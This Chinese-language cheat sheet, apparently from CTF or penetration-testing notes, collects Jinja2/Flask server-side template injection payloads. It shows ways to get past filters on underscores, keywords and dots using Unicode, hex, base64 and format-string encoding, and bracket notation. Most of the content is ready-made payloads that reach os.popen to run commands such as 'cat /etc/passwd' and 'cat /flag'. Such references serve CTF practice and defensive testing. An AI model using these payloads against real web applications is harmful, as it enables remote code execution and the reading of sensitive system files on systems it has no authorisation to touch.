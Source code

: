 payload示例：

```
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
```

（Unicode编码，这条payload等效于{{“”.__class__}}） 

### 2.utf-16

```
{{().__class__.__base__.__subclasses__()[199].__init__.__globals__}}
```



```
{{()|attr("\u005F\u005F\u0063\u006C\u0061\u0073\u0073\u005F\u005F")|attr("\u005F\u005F\u0062\u0061\u0073\u0065\u005F\u005F")|attr("\u005F\u005F\u0073\u0075\u0062\u0063\u006C\u0061\u0073\u0073\u0065\u0073\u005F\u005F")()|attr("\u005F\u005F\u0067\u0065\u0074\u0069\u0074\u0065\u006D\u005F\u005F")(199)|attr("\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F")|attr("\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F")}}
```

### 十六进制编码

```
{{()[“\x5f\x5fclass\x5f\x5f”][“\x5f\x5finit\x5f\x5f”][“\x5f\x5fglobals\x5f\x5f”][“os”].popen(“ls”).read()}}
```

这条payload等效于{{“”.__class__.__init__.globals__.os.popen(“ls”).read()}}

### base64编码绕过

"__class__"==("X19jbGFzc19f").decode("base64")

### 格式化字符串

```
{{()|attr("%c%cclass%c%c"%(95,95,95,95))|attr("%c%cbase%c%c"%(95,95,95,95))|attr("%c%csubclasses%c%c"%(95,95,95,95))()|attr("%c%cgetitem%c%c"%(95,95,95,95))(117)|attr("%c%cinit%c%c"%(95,95,95,95))|attr("%c%cglobals%c%c"%(95,95,95,95))|attr("%c%cgetitem%c%c"%(95,95,95,95))(‘popen’)(‘cat /etc/passwd’)|attr(‘read’)()}}
```

%c %(95) 即下划线(如果是在 hackbar 注入，需要将%编码为%25。在 URL中%是一个特殊字符，用于表示后面紧跟着两个十六进制数字的转义序列，如果想在 URL中包含%字符本身，需要对它进行额外的编码，将%编码成%25)

%c是占位符，后面95是_的ascii码

# 10.点"."过滤

## 中括号代替

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]('cat /flag').read()}}
```
